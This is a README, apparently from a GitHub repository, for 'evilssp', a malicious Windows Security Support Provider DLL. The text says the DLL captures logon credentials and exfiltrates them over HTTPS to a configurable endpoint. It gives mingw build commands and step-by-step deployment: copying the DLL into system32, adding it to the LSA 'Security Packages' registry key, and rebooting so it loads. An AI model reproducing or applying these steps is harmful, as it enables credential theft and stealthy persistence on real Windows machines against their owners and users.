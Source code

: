 # evilssp
# TL;DR

gros copier coller de 

https://github.com/gentilkiwi

et 

https://www.ired.team/offensive-security/credential-access-and-credential-dumping/intercepting-logon-credentials-via-custom-security-support-provider-and-authentication-package

# kekesé

Chat GPT

> SSP est l'abréviation de Security Support Provider (Fournisseur de support de sécurité). Dans le contexte de Windows, il s'agit d'un composant logiciel qui permet de gérer l'authentification et la sécurité des connexions réseau. Les SSP sont utilisés par les services d'authentification de Windows pour négocier les protocoles d'authentification avec les clients et les serveurs. Ils sont utilisés pour des connexions telles que les connexions de bureau à distance (RDP), les partages de fichiers et les services Web. Les exemples de SSP dans Windows incluent NTLM, Kerberos et Schannel.


chevalo_ssp est donc un ssp malveillant qui récupére les identifiants de connexion et les envois en https sur un endpoint choisie.

# Configuration

il est possible de modifier:
* URL
* User-Agent

# Compilation

```sh
mkdir -p build && cd build
CC=x86_64-w64-mingw32-gcc cmake ..
make -j 8
```

# injection

## injection via winapi

google

## injection via clef de registre

### step1

copier la dll dans system32.
```
copy ssp.dll %systemroot%\system32\chevalo.dll
```

### step2

recupération de la clef de registre.

```
reg query hklm\system\currentcontrolset\control\lsa\ /v "Security Packages"
```


### step3

modification de la clef de registre.

Example volé a ired.team

```
reg add "hklm\system\currentcontrolset\control\lsa\" /v "Security Packages" /d "kerberos\0msv1_0\0schannel\0wdigest\0tspkg\0pku2u\0chevalo.dll" /t REG_MULTI_SZ /f
```

### step4

redémarrer la machine.
```
reboot
```